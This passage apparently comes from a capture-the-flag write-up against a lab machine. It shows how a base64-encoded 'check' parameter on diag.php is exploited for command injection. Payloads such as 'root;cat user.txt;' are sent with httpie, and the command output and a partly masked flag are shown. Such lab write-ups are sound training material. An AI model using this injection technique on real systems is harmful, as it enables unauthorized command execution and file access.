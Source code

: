 So now we have all the root process. Looks like the b64 is decoded and placed under certain command to find the related output, if this is the case then we are lucky because we can inject any command into that b64 and it will be executed. Let's try this.

I tried changing b64 to `root;ls;`(cm9vdDtsczsK)

```bash
➜ http -f POST http://10.10.10.105/diag.php Cookie:"PHPSESSID=927bpraqjv41bbcqu3dhgbkp81" check=cm9vdDtsczsK | lynx --stdin
```

__OUTPUT__

```bash
.
.
.
.
root 2696 0.0 0.1 11232 2988 ? Ss 17:51 0:00 bash -c ps waux | grep root;ls; | grep -v grep

root 2697 0.0 0.1 36084 3336 ? R 17:51 0:00 ps waux

root 2664 0.0 0.0 12944 1020 ? S 17:51 0:00 grep root

10.120.15.10

test_intercept.pcap 10.10.10.105

user.txt
```

This was in the end of the page. We get all the files in that directory(actually not sure which directory but should be root home dir), So we were right about the command injection.

By the way if you are curious to know which command our b64 is placed then it the following command:
```bash
bash -c ps waux | grep root;ls; | grep -v grep
```
Which is basically
```bash
bash -c ps waux | grep [decode b64] | grep -v grep
```

Time to own the user:

put `check=cm9vdDtjYXQgdXNlci50eHQ7Cg==` which is equivalent to `check=root;cat user.txt;`

```bash
➜ http -f POST http://10.10.10.105/diag.php Cookie:"PHPSESSID=927bpraqjv41bbcqu3dhgbkp81" check=cm9vdDtjYXQgdXNlci50eHQ7Cg== | lynx --stdin
```

__OUTPUT__

```bash
5649c41**********************
```
